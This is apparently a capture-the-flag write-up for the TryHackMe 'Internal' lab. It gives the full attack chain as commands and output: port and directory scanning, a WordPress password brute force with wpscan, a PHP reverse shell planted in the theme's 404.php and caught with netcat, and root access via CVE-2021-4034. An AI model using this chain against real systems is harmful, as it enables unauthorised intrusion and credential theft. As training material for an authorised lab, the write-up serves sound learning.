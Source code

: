 <!-- TOC -->

- [Internal](#internal)
    - [Scope of Work](#scope-of-work)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)
        - [Shell Stabilization](#shell-stabilization)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Internal

[Internal Room](https://tryhackme.com/room/internal)

Penetration Testing Challenge

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

## Scope of Work

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

Note - this room can be completed without Metasploit

| Title | IP Address |
| :---- | :---- |
| Internal | `1*.**.**.***` |

## Discovery and Scanning

```bash
sudo nmap -p- -T4 -Pn 1*.**.**.***
nmap -p22,80 -sV -sC -T4 -Pn -oA initial 1*.**.**.***
```

> ```
> . . .
> PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
> |   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
> |_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
> 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
> |_http-title: Apache2 Ubuntu Default Page: It works
> |_http-server-header: Apache/2.4.29 (Ubuntu)
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

```bash
dirsearch -u 1*.**.**.*** -r -t 120
```

> ```
> . . .
> [22:54:33] 200 -    4KB - /blog/wp-login.php                                
> [22:54:33] 301 -  311B  - /blog  ->  http://1*.**.**.***/blog/     (Added to queue)
> [22:54:33] 200 -   53KB - /blog/                                            
> [22:55:00] 200 -   11KB - /index.html                                       
> [22:55:03] 301 -  317B  - /javascript  ->  http://1*.**.**.***/javascript/     (Added to queue)
> [22:55:24] 200 -   13KB - /phpmyadmin/doc/html/index.html                   
> [22:55:26] 301 -  317B  - /phpmyadmin  ->  http://1*.**.**.***/phpmyadmin/     (Added to queue)
> [22:55:29] 200 -   10KB - /phpmyadmin/                                      
> [22:55:29] 200 -   10KB - /phpmyadmin/index.php                             
> [22:55:40] 403 -  277B  - /server-status                                    
> [22:55:41] 403 -  277B  - /server-status/     (Added to queue)              
> [22:56:06] 200 -    4KB - /wordpress/wp-login.php
> . . .
> ```

```
sudo echo "1*.**.**.*** internal.thm" >> /etc/hosts
wpscan --url http://internal.thm/blog -e vp,vt,u --api-token *******************************************
```

> ```
> . . .
> [!] 12 vulnerabilities identified:
> . . .
> . . .
> [+] WordPress theme in use: twentyseventeen
>  | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
>  | Last Updated: 2022-05-24T00:00:00.000Z
>  | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
>  | [!] The version is out of date, the latest version is 3.0
>  | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
>  | Style Name: Twenty Seventeen
> . . .
> . . .
> [+] admin
>  | Found By: Author Posts - Author Pattern (Passive Detection)
>  | Confirmed By:
>  |  Rss Generator (Passive Detection)
>  |  Wp Json Api (Aggressive Detection)
>  |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
>  |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
>  |  Login Error Messages (Aggressive Detection)
> . . .
> ```

```bash
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
```

> ```
> . . .
> [+] Performing password attack on Xmlrpc against 1 user/s
> [SUCCESS] - admin / m******
> . . .
> . . .
> [!] Valid Combinations Found:
>  | Username: admin, Password: m******
> . . .
> ```

## Exploitation

Using `admin:m******`

Go to: `http://internal.thm/blog/wp-login.php`

Replace the `404.php` with [Pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![404_template](404_template.png)

```bash
sudo nc -lvnp 80
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

### Shell Stabilization

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
- `ctrl` + `z`

```bash
stty -a
stty raw -echo; fg
stty rows 34 cols 95
```

Using `linpease`:

> ```
> . . .
> ╔══════════╣ CVEs Check
> Vulnerable to CVE-2021-4034
> . . .
> ╔══════════╣ Users with console
> aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
> root:x:0:0:root:/root:/bin/bash
> . . .
> ╔══════════╣ Analyzing Wordpress Files (limit 70)
> -rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/> wordpress/wp-config.php
> define( 'DB_NAME', 'wordpress' );
> define( 'DB_USER', 'wordpress' );
> define( 'DB_PASSWORD', 'wordpress123' );
> define( 'DB_HOST', 'localhost' );
> . . .
> $dbpass='B2Ud4fEOZmVq';
> $dbuser='phpmyadmin';
> . . .
> ```

## Privilege Escalation

Using [CVE-2021-4034](https://www.exploit-db.com/exploits/50689):

```bash
find / -type f -name user.txt
cat /****/*********/user.txt
```

> `THM{********_****_*}`

```bash
find / -type f -name root.txt
cat /****/root.txt
```

> `THM{******_*********}`
